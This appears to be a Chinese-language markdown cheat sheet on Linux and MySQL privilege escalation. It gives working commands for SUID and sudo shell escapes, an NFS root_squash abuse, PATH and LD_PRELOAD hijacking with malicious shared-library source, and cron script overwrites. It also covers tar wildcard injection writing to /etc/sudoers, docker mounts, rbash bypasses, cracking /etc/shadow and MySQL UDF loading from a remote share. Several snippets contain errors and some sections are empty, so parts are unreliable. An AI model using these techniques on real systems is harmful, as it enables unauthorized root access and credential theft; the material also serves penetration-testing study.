



# Linux提权
**Linux提权的手段主要有以下几种：**

1. 滥用系统漏洞：通过发现系统的漏洞并利用它们，可以获取root权限。这包括利用内核漏洞、软件漏洞、配置错误等。

2. 提权工具：有一些专门的工具可以用来提权，如suid提权工具、sudo提权工具、dirtycow等。

3. 寻找可利用的文件：在系统中寻找可利用的文件，如未正确设置权限的可执行文件、脚本、配置文件等。

4. 网络攻击：通过网络攻击，如远程溢出、拒绝服务攻击等，获取系统的root权限。

5. 社会工程学：通过欺骗、诱导、伪装等手段，获取管理员或其他用户的密码，从而提权。

6. 物理访问：直接访问服务器或者物理设备，通过重置密码、修改配置等方式提权。

**Linux的权限分配机制主要有以下几种：**

1. 用户和组权限：Linux使用用户和组的概念来管理权限。每个文件和目录都有一个所有者和一个所属组，分别对应于用户和组。通过设置文件的所有者和所属组，并为其分配读、写和执行权限，可以控制对文件的访问权限。

2. 文件权限位：Linux使用文件权限位来控制对文件的访问权限。每个文件都有三组权限位：所有者权限、所属组权限和其他用户权限。每组权限位包括读（r）、写（w）和执行（x）权限。通过设置这些权限位的组合，可以控制不同用户对文件的访问权限。

3. SUID、SGID和SBIT标志：SUID（Set User ID）、SGID（Set Group ID）和SBIT（Sticky Bit）是一些特殊的权限标志，可以应用于文件和目录。SUID标志在执行文件时将临时提升为文件所有者的权限，SGID标志在执行文件时将临时提升为文件所属组的权限，SBIT标志用于控制目录中文件的删除权限。

4. Access Control Lists（ACLs）：ACLs是一种更灵活的权限控制机制，可以在用户和组权限的基础上进一步细分控制。ACLs允许为文件和目录指定更多的访问规则，并为特定用户或组授予或撤销特定权限。

5. Capability机制：如前面提到的，Linux的capability机制允许细粒度地控制进程对系统资源的访问权限。通过为进程分配特定的capability权限，可以控制其对特定操作的访问权限。

这些权限分配机制可以根据需要进行组合和配置，以实现对文件和系统资源的细粒度控制。在实际应用中，可以根据具体的需求选择合适的权限分配机制。
**查找命令**
find whereis which 
**筛选命令**
grep awk sed 
## 非漏洞提权
## 脏牛提权(linux)
## PR提权(windows)
### suid提权
#### 文件权限概述
##### 普通文件权限
rwx 421
##### 特殊文件权限
suid,sgid,sticky
**作用范围**
+ suid权限作用于文件属性
+ sgid作用于属组上
+ sticky作用于other上
**suid权限**
让普通用户临时拥有该文件的属主执行权限，只能应用于二进制可执行文件上，suid权限只能设置在属主位置上
用s表示，0表示移除suid权限，4表示添加suid权限
0755，移除suid权限，4755，增加suid权限
```
chmod u+s dataset.py
chmod 4755 dataset.py
```

**sgid权限**
当一个目录拥有sgid权限时，任何用户在该目录下创建的文件都会属于该目录的属组
用s表示，0表示去除sgid权限，2表示增加sgid权限
0755，移除suid权限，2755，增加sgid权限
```
chmod g+s code
chmod 2755 code
```
**sticky权限**
只允许该目录下的文件创建者删除自己创建的文件，不允许其它用户删除文件
用t表示，1表示添加权限，0表示去除权限
0755，移除suid权限，1755，1表示添加权限
```
chmod o+t code
chmod 1755 code
```
#### 查找suid权限的程序
```
find / -perm -u=s -type f 2 >/dev/null
```
>该命令是在Linux系统中使用find命令来查找具有Setuid权限的文件。具体解释如下：
>find：Linux中的一个强大的文件搜索工具。
>/：表示从根目录开始搜索。
>-perm：用于指定要匹配的文件权限。
>-u=s：表示要匹配的权限模式。在这里，"u"表示用户权限，"s"表示Setuid权限。Setuid权限允许用户以文件所有者的权限执行文件。
>-type f：表示要匹配的文件类型为普通文件。
>2 >/dev/null：将错误输出重定向到/dev/null，即将错误信息丢弃。
>综上所述，该命令的作用是在整个文件系统中查找具有Setuid权限的普通文件，并将结果输出到标准输出。由于将错误输出重定向到/dev/null，因此不会显示任何错误信息。
通过拥有suid权限的命令更改/etc/passwd内的文件，从而添加拥有root权限的用户
**/etc/passwd **
/etc/passwd 是一个在 Linux 和 Unix 系统中存储用户账户信息的文件。它包含了每个用户账户的基本信息，每行代表一个用户账户，并使用冒号分隔字段。每行的字段按照以下顺序排列：

用户名（Username）：用于标识用户的唯一名称。
密码占位符（Password Placeholder）：在早期的系统中，密码被存储在 /etc/passwd 文件中，但现在通常存储在 /etc/shadow 文件中，此处的字段被占位符替代。
用户 ID（User ID）：每个用户都有一个唯一的数字标识符，称为用户 ID。
组 ID（Group ID）：指定用户所属的主要组的组 ID。
用户信息（User Information）：可以是用户的全名、描述或其他相关信息。
主目录（Home Directory）：用户的主目录，通常是用户登录后所在的初始目录。
登录 Shell（Login Shell）：用户登录后使用的默认 shell。
例如，下面是一个 /etc/passwd 文件的示例行：
```
john:x:1000:1000:John Doe:/home/john:/bin/bash
```

**密码生成**
可以使用openssl生成密码的RSA,AES等算法的密钥
##### 可以利用的命令
SUID（Set User ID）提权是一种特权提升的方法，通过设置可执行文件的SUID权限，使得普通用户可以以文件所有者的权限来执行该文件。以下是一些常用的命令和工具，可以用于SUID提权：

1. find：使用find命令查找具有SUID权限的可执行文件，例如：
```
find / -perm -4000 -type f
```

2. nmap：使用nmap工具可以扫描网络中开放的端口和服务，可能发现一些可利用的漏洞。

3. vim：使用vim编辑器可以通过执行命令来提权，例如：
```
:!/bin/sh
```

4. awk：使用awk命令可以通过执行系统命令来提权，例如：
```
awk 'BEGIN {system("/bin/sh")}'
```

5. python：使用python解释器可以执行一些系统命令，例如：
```
python -c 'import os; os.system("/bin/sh")'
```

6. perl：使用perl解释器也可以执行系统命令，例如：
```
perl -e 'exec "/bin/sh";'
```

7. gdb：使用gdb调试器可以通过执行系统命令来提权，例如：
```
gdb -q -ex 'python import os; os.setuid(0); os.system("/bin/sh")' -ex quit
```

8. bash：如果bash版本较低，可以使用bash来提权，例如：
```
bash -p
```
9. cp、mv、less、more、man等
### sudo提权
sudo用于，给普通用户赋予root权限，使用本用户的密码即可
su用于切换用户
**/etc/sudoers文件**
/etc/sudoers 文件是一个用于配置 sudo 命令的配置文件，它定义了哪些用户可以以超级用户的权限执行特定的命令。sudo 是一种在 Linux 和 Unix 系统中允许普通用户以其他用户身份执行命令的机制。

sudoers 文件的权限设置为只有 root 用户可读和可写。只有 root 用户才能修改该文件。

sudoers 文件的语法比较特殊，使用了类似于 C 语言的语法。以下是 sudoers 文件的一些常用语法和配置选项：

1. 用户别名（User_Alias）：可以定义一组用户，以便在其他配置项中引用。
2. 命令别名（Cmnd_Alias）：可以定义一组命令，以便在其他配置项中引用。
3. 主机别名（Host_Alias）：可以定义一组主机，以便在其他配置项中引用。
4. 用户特权规则（User_Spec）：定义了哪些用户可以以超级用户的权限执行哪些命令。可以指定具体的用户、用户别名、主机别名、命令别名等。
5. 默认特权规则（Defaults）：定义了默认的特权规则，如默认的密码验证方式、默认的命令别名等。

以下是一个 sudoers 文件的示例：

```
# User privilege specification
root    ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# Allow user john to execute specific commands without password
john    ALL=(ALL) NOPASSWD: /bin/ls, /sbin/reboot
```

在上述示例中，第一行表示超级用户 "root" 可以以任何用户和任何主机的身份执行任何命令。第三行表示属于 sudo 用户组的用户可以以任何用户和任何主机的身份执行任何命令。第五行表示用户 "john" 可以以任何用户和任何主机的身份执行 "/bin/ls" 和 "/sbin/reboot" 命令，而无需输入密码。

需要注意的是，修改 sudoers 文件时应格外小心，避免出现语法错误，以免导致系统的安全性问题。最好使用 visudo 命令来编辑 sudoers 文件，它会在保存文件时进行语法检查，以确保文件的正确性。

**常用命令**
+ sudo su 
+ sudo bash 以root权限运行bash
+ sudo -l 查看sudo能够使用的范围
+ visudo 编辑/etc/sudoers文件
**编辑sudoers文件提权**

**使用 git提权**
```
sudo git help config //进入帮助文档后，输入!/bin/bash完成提权
sudo git -p help   // 同上
```
**应用程序提权**
env
```
sudo env /bin/bash
```
ftp,
```
sudo ftp 然后输入!/bin/bash
```
socat

scp

### nfs提权
#### NFS基本知识
全称:    network file system 文件共享服务。默认2049端口，使用RPC remote procedure call 记录每个nfs协议的端口信息。
流程：（RPC记录NFS端口信息，充当中介）
1、服务端启动RPC服务
2、服务端启动NFS服务，并向RPC服务注册端口信息
3、NFS客户端向RPC请求NFS服务端口信息
4、RPC返回该端口信息
5、客户端访问对应端口的NFS服务，进行文件挂载和共享 
#### 基本使用
安装nfs服务端
```
sudo apt install nfs-kernel-server 
```
更改配置文件
```
/etc/exports
/home *(rw,no_root_squash) 共享目录 允许连接的主机 执行权限 用户权限
```
重启nsf和rpc服务
```
sudo /etc/init.d/rpcbind restart
sudo /etc/init.d/nfs-kernel-server restart
```
查看服务器共享目录
```
showmount -e ip
nmap --script=nfs-showmount ip
```
#### 提权利用
条件：共享服务器配置允许共享目录读写，且能以root权限访问该目录
1、将目标主机的目录挂载到本机目录
```mount -t nfs ip:/home ./```
2、将本机/bin/bash复制到挂载目录
```cp /bin/bash ./```
3、为bash添加suid权限
```chmod u+s ./bash```
4、取消挂载
```umount ./```
5、运行目标服务器共享目录的bash
```./bash -p```
#### 其它利用方式
上传带有suid权限的nano
使用nano读取/etc/shadow文件中的密码，破解root用户 然后登录
``` nano -p /etc/shadow```
使用john破解
```john passwd```
也可使用nano编辑/etc/passwd和/etc/sudoers文件，将用户权限改为root权限
### path变量提权
#### 概述
PATH变量是一个环境变量用于指定可执行文件的目录，运行命令时，系统就会根据PATH来查找相关的可执行文件
```
env|grep "^PATH"
```
1、发现有suid权限文件，无法直接利用
2、该文件调用了某个命令
3、在某个路径下创建该命令同名的恶意文件(直接创建，cp,ln -s) 
4、将该路径添加到环境变量中。suid文件执行时就会调用该恶意文件从而提权(一般该文件写#! /bin/bash)
### ld_preload提权
#### 基础知识
LD_PRELOAD,环境变量，预加载动态库，加载so文件，用于动态库的加载优先级最高。默认配置文件为/etc/ld.so.preload
一般情况下加载顺序为，LD_PRELOAD>LD_    LIBRARY_PATH>/etc/ld.so.cache>lib>usr>lib。
。。。。
#### 条件
sudoers文件中有
```
defaults env_keep+=LD_PRELOAD
```
默认更换用户时会保留该环境变量
#### 利用
使用具有suid或者sudo权限的命令，利用该环境变量加载恶意动态库（so文件），执行恶意代码，从而提权
1、编写恶意文件shell.c
```
#include<stdio.h>
#nclude<sys/types.h>
#include<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2、编译
```
gcc shell.c -fPIC -shared -o shell.so -nostartfiles
```
3、使用带有root权限的命令调用该库
```
sudo LD_PRELOAD=/etc/shell.so find //设置LD_PRELOAD的环境变量值，在执行find命令全前进行动态加载共享库
```
### cron提权
#### 定时任务相关知识
配置文件/etc/crontab
```
* * * * *    username   /path
分时天月周    执行用户    路径
```
#### 利用
将定时任务将执行的脚本内容进行替换，使得执行恶意代码
**覆盖文件提权**
1、发现定时任务
```
*/1 * * * *  root /demo.py
```
2、修改执行脚本 demo.py
```
import os
try:
    os.system('chod u+s /bin/bash')
exception:
    system.exit()
```
3、等待定时任务执行，提权成功
**注入提权**
定时任务为压缩备份文件时
```
*/1*   * * *   root tar -zcf /var/backups/html.tgz/var/www/html/*
```
执行以下命令：
```
echo'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers'>test.sh
echo"" > "--checkpoint-action=exec=sh test.sh"
echo"" > --checkpoint=1
tarcf archive.tar *
```
### docker提权
#### 条件
用户在docker组中，这样普通用户都可使用docker
#### 利用
利用docker中默认为root用户，将系统文件挂载到docker中然后就能以root权限进行操作文件，从而实现提权
```
docker run -v /etc:/mnt -it alpine
```
### lxd提权
#### 概念
lxd、lxc、docker
lxc：系统容器，进程隔离，虚拟化
lxd：lxc的守护进程，用来管理lxc容器
docker：应用程序容器
#### 提权方式
和docker同理，将系统文件挂载到lxc的容器中，以root用户进行编辑从而提权

### capability提权
#### 相关知识    
Linux的权限分配机制，将root权限进行细分，作用到进程上，利用某些权限进程从而实现提权
### rbash绕过总结
rbash： restricted bash ，受限制的bash ,root用户可以指定普通用户的bash为rbash，以此限制相关操作。
```
usermod -s /bin/rbash user 
```
vi绕过
进入vi中使用set命令将shell改回bash
:set shell=/bin/bash
ed绕过
```
ed
!'/bin/bash'
```
bash,sh,dash绕过
默认能执行bash,sh,dash命令
用编程语言绕过
使用python，perl调用/bin/bash进行切换
ssh绕过
可以通过连接时强行指定分配终端
```
ssh user@ip -t "bash --noprofile"
```
### MySQL 提权
分类：udf提权、mof提权、启动项提权
#### udf提权
**条件**
能远程连接数据库
具有写入权限。即 secure_file_priv值为空
MySQL的登录账户为root权限
##### 基础知识
UDF（user defined function）用户自定义函数，为mysql的拓展接口，可以为mysql创建自定义函数
##### 操作
**查看是否具有写入权限**
```
show global variables like '%secure%';
select @@secure_file_priv;
```
secure_file_priv的取值：
1、NULL：表示没有指定secure_file_priv的值，这意味着MySQL服务器可以从任何位置读取和写入文件。

2、空字符串（''）：表示secure_file_priv被设置为空字符串，这意味着MySQL服务器可以从任何位置读取和写入文件。

3、一个目录路径：表示secure_file_priv被设置为指定的目录路径，这意味着MySQL服务器只能从该目录中读取和写入文件。这是最常见的情况，也是安全性最高的设置。
**查看系统以及版本**
```
select  @@version_compile_os,@@version_compile_machine;
show variables like '%complie%';
```
**确定上传路径**
MySQL<5.0
```
任意路径
```
5.0<=MySQL<5.1
```
服务器系统目录
```
MySQL>5.1
```
select  @@plugin_dir;
show variables like '%plugin%';
```
**配置文件路径**
```
show variables like '%config_file%';
```
**myql安装路径**
```
select @@basedir;
```
**上传UDF动态链接库文件**
sqlmap自带该文件，metasploit查找也行

+ 远程上传文件
```
select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile 
"D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```
+ 直接写入字符串
```
本机将动态链接库文件十六进制编码
select hex("file_path") into dumpfile("out_path");
靶机创建表
create table udfdump(column_name LONGBLOB);
将数据插入表中
insert into udfdump values(unhex('hex_string'));
将该表中的文件输出到目标路径
select * from dumpfile into dumpfile "path";
```
**创建自定义函数**
```
create function func_name returns string soname 'udf.dll|udf.so';//soname 用于指定共享库名称
```
**查看自定义函数**
```
select * from mysql.func;
```
**执行系统命令**
```
select func_name('cmds');
```
#### mof提权
##### 原理
利用了C:\Windows\System32\wbem\MOF目录下的nullevt.mof文件

利用该文件每分钟会去执行一次的特性，向该文件中写入cmd命令，就会被执行
##### 条件
+ 低版本Windows系统可用
+ 对C:\Windows\System32\wbem\MOF具有读写权限
##### 利用步骤
创建一个mof文件，写入命令执行代码
MySQL中将该文件写入到C:/Windows/System32/wbem/MOF/nullevt.mof中
等待定时任务执行该代码
### 启动项提权
### SQL server xp_cmdshell提权
### 搜索密码提权
### 相关检测脚本
## 漏洞提权
### 相关脚本
### 搜索漏洞